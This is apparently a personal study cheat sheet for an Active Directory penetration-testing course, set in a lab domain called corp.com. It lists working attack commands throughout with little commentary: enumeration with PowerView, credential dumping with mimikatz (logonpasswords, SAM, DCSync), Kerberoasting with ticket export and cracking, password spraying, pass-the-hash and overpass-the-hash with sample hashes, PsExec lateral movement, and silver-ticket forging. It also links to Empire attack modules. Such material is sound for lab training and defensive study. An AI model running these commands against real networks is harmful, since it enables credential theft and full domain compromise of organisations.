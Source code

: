 #### Active Directory

```
net user
net user /domain
net user jeff_admin /domain
net group /domain
```

#### LDAP Provider Path Format

```
LDAP://HostName[:PortNumber][/DistinguishedName]

```

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```


#### Logged on Users

```
Import-Module .\PowerView.ps1

Get-NetLoggedon -ComputerName client251

Get-NetSession -ComputerName dc01

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/powerview.ps1


import-module C:\Tools\active_directory\GetSPN.ps1
Get-SPN -type service -search "*.corp.com*"

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Get-SPN.ps1


#### Cached creds retrieval

```
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Service account attack

Requesting service ticket and display tickets

```
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

klist
```

```
kerberos::list /export

```

Cracking the ticket

```
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/nidem/kerberoast

#### Cracking password using JTR

Use the script from repo
https://github.com/nidem/kerberoast


```
john --format=krb5tgs ./crack --wordlist=~/oscp/exer/wordlist.txt

python kirbi2john.py ~/oscp/exer/1-40a10000-offsec@MSSQLSvc~CorpSqlServer.corp.com~1433-CORP.COM.kirbi > crack

```
#### Using Invoke-kerberoast.ps1

```

Import-module Invoke-kerberoast.ps1

Get-DomainSPNTicket -SPN "HTTP/CorpWebServer.corp.com"

Get-Domain -Domain corp.com

Get-DomainUser -SPN

 Get-DomainUser -domain corp.com

Get-DomainUser


Invoke-kerberoast -OutputFormat john

Invoke-kerberoast -OutputFormat hashcat

hashcat -m 13100 -a 0 kerb-hash0.txt ./wordlist.txt --force

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

```

#### Low and Slow Password guessing

```
net accounts

.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
.\Spray-Passwords.ps1 -File pass.txt -Admin
```
### Lateral movement

#### Pass the Hash

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

#### Overpass the Hash

```
sekurlsa::logonpasswords

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

klist - no ticket listed

net use \\dc01

klist - ticket listed after net use

 .\PsExec.exe \\dc01 cmd.exe

ipconfig

whoami
```
https://download.sysinternals.com/files/PSTools.zip


#### Pass the Ticket

  get the SID

`whoami /user` 

purge kerberos ticket

```
kerberos::purge

kerberos::list
```

The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), which is highlighted above, the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4).Finally, the generated silver ticket is injected directly into memory with the /ppt flag.

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list

```

lsadump::dcsync /user:corp\iis_service

kerberos::hash /password:puttheservicepasswordhere


